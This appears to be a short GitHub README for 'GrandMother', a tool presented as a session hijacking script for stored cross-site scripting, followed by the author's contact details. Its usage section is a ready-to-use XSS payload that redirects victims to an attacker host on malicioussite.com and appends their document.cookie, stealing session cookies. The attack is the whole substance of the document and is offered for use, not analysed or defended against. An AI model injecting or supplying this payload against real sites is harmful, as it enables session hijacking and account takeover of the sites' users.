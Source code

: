 # GrandMother
<b>Session hijacking script from Cross-Site Scripting (XSS) Stored.</b>
# Use:
<code><script>location.href="http://malicioussite.com/grandmother.php?cookie="+document.cookie</script></code>
# Contact:
- Twitter: @0x53_oficial
- E-mail: 0x53oficial@gmail.com
